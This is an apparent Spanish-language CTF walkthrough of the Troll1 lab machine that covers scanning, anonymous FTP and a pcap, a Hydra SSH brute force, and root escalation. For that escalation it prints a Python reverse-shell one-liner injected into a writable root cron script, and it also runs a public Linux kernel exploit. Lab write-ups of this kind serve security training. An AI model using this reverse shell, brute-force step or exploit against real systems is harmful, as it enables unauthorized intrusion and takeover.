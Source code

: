 ```yaml
---
title: Resolución de TROLL1 CTF
date: 2023-08-02
categories: [Labs & CTF, Walkthrough]
tags: [pentesting, ctf, privilege-escalation, linux]
---
```


## Reconocimiento inicial

Descubrimos los HOST activos:

```bash
sudo nmap -sn -n 192.168.20.0/24
```

En este caso sabemos que la maquina es la 192.168.20.128 por lo que escaneamos los puertos activos de forma segura para no ser detectados.

```bash
sudo nmap -sS -n -ff --top-ports 5 192.168.20.128
```

De nuevo aquí sabemos que esta máquina únicamente tiene los puertos 21,22 y 80 activos. Ahora vamos a ver que servicios y que versión corren esos puertos:

```bash
sudo nmap -sV -n -p21,22,80 192.168.20.128
```

![Nmap scan](/assets/img/posts/troll1/20241125_224002_6-1.png)

Como vemos que en este caso el puerto 80 está activo significa que está corriendo alguna aplicación web así que vamos al navegador a verificar.

En esta aplicación habrá archivos y contenido dentro de la aplicación web utilizando DIRBUSTER etc.

Sabiendo que servicios corren podemos buscar vulnerabilidades públicas y si tienen PoC.

## Explotación de FTP anónimo

Observamos que tiene un servicio FTP activo en el puerto 21 y que este servicio por defecto implementa un acceso anónimo, por lo que podremos probar.

```bash
ftp 192.168.20.128
```

![FTP anonymous](/assets/img/posts/troll1/20241125_224045_6-2.png)
_Como vemos esta máquina tiene un login anónimo en FTP._

Listamos archivos y vemos un "lol.pcap" así que lo traemos a la máquina principal:

```bash
get lol.pcap
exit
```

Abrimos el archivo con WIRESHARK:

![Wireshark analysis](/assets/img/posts/troll1/20241125_224150_6-3.png)
_Y vemos registros de inicio de sesión mediante FTP_

En este tipo de conexiones es interesante ver que archivos y que transferencias se han realizado:

![FTP data](/assets/img/posts/troll1/20241125_224209_6-4.png)
_En este caso en un FTP-DATA encontramos algo más de información._

Como vemos es alguna guía para este CTF indicando que casi pero no. Podríamos intentar buscar algo sobre esta información en la aplicación web.

## Exploración web y enumeración

En el navegador vamos a buscar el directorio http://192.168.20.128/sup3rs3cr3tdirlol/

Encontramos un archivo y lo descargamos.

Si lo abrimos vemos que es un binario en que solo distinguimos algunas cadenas de texto.

![Binary analysis](/assets/img/posts/troll1/20241125_224347_6-5.png)
_Como vemos hay algún tipo de pista._

A lo mejor se está refiriendo a la aplicación web http://192.168.20.128/0x0856BF/

Vemos dos carpetas en las que hay dos archivos uno con una contraseña y otro con lo que parece una lista de Usuarios:

```text
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

## Fuerza bruta SSH

Ahora bien, si recordamos esta máquina tiene varios servicios, FTP, HTTP y SSH, quizá esto indique algún usuario válido para poder acceder por SSH.

Para ello si tenemos el usuario concreto y su contraseña pues lo hacemos manualmente si no podemos usar algunas herramientas automáticas. Una de las más famosas es HYDRA:

Descargamos los archivos de texto de la máquina a la nuestra con:

```bash
curl http://192.168.20.128/0x0856BF/good_luck/which_one_lol.txt > users.txt
curl http://192.168.20.128/0x0856BF/this_folder_contains_the_password/Pass.txt > pass.txt
```

Modificamos el documento para eliminar esa cadena de texto innecesaria y vamos con hydra:

```bash
hydra -L users.txt -p "Good_job_:)" 192.168.20.128 ssh
```

Pero parece que no es correcto ya que hydra nos devuelve que no ha encontrado coincidencias. Teniendo un poco en cuenta que es un CTF y que la carpeta donde copiamos la posible contraseña se llama "this_folder_contains_the_password", pensando un poco y siendo creativos podemos pensar que es "Pass.txt" así que vamos a probar:

```bash
hydra -L users.txt -p "Pass.txt" 192.168.20.128 ssh
```

![Hydra success](/assets/img/posts/troll1/20241125_224609_6-6.png)
_Como vemos en este caso ha conseguido acceso mediante una coincidencia._

A todo esto hay que tener en cuenta que todo esto será monitoreado por prácticamente cualquier IDS como SNORT si se realiza así sin más o sin protección por lo que es algo a tener en cuenta ya que hydra básicamente hace un ataque de fuerza bruta.

## Post-explotación y escalada de privilegios

En este punto podemos tomar tres caminos:

- Descubrir que proceso nos termina la sesión por timeout
- Descubrir ficheros a los que tengamos acceso desde la máquina
- Buscar vulnerabilidades para la versión del sistema operativo que esté ejecutando la máquina

Vamos a ver si podemos eliminar o configurar el proceso que nos termina la sesión:

```bash
cd /var/log
```

Listamos y vemos un archivo cronlog que si analizamos está ejecutando un archivo llamado cleaner.py

![Cronlog analysis](/assets/img/posts/troll1/20241125_224800_6-7.png)

Buscamos donde se encuentra ese archivo y vemos su contenido:

![Cleaner.py content](/assets/img/posts/troll1/20241125_224814_6-8.png)

Es un script en python que de forma recursiva elimina a todo el contenido de la carpeta tmp pero si vemos quien ejecuta este archivo es el usuario root y tiene un problema de seguridad y es que el archivo se puede modificar por cualquier usuario.

Buscamos un script de python para activar un reverse shell desde el archivo: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.20.129",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

Con un nano vamos a modificar el script de python añadiendo esa línea de ejecución y vamos escuchar por el puerto con netcat:

```bash
nano /lib/log/cleaner.py
netcat -lvp 4242
```

Y cuando el archivo se ejecute veremos como obtenemos una reverse shell de la máquina con privilegios root:

![Reverse shell](/assets/img/posts/troll1/20241125_224925_6-9.png)

De nuevo esto es una máquina preparada por lo que en el mundo real no se encuentran esos script diseñados para poder explotarlos.

## Método alternativo: Kernel Exploit

Pero sí que en un caso real podemos hacer un análisis sobre vulnerabilidades que tenga algún servicio desactualizado que proporcione una brecha de seguridad que podamos explotar.

Por ejemplo hay un exploit del kernel de linux en su versión 3.13.0 en las versiones de Ubuntu 12.04/14.04/14.10/15.04 [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)

Para probarlo podemos copiar el exploit e ir a una dirección donde el usuario de ssh pueda escribir como es TMP:

```bash
pico exploit.c
# Pegamos el exploit
gcc exploit.c -o hacked
./hacked
```

![Privilege escalation](/assets/img/posts/troll1/20241125_225102_6-10.png)
_Y como vemos tenemos escalado de privilegios_